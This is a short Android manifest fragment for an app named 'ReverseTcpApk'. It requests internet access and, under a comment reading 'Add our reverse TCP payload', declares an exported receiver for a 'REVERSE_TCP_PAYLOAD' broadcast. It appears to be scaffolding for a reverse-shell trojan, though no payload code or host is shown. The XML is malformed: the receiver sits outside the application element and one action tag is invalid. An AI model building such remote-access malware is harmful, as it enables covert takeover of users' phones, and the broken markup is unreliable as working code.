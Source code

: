 <uses-permission android:name="android.permission.INTERNET" />

<application>

<activity

android:name=".ReverseTcpApk"

android:label="@string/app_name">

<intent-filter>

<action android:name="android.intent.action.MAIN" />

<category android:name="android.intent.category.LAUNCHER" />

</intent-filter>

</activity>

</application>



<!-- Add our reverse TCP payload -->

<receiver

android:name=".PayloadReceiver"

android:enabled="true"

android:exported="true">

<intent-filter>

<action.android.name = "com.example.REVERSE_TCP_PAYLOAD"/>

</intent-filter>

</receiver>
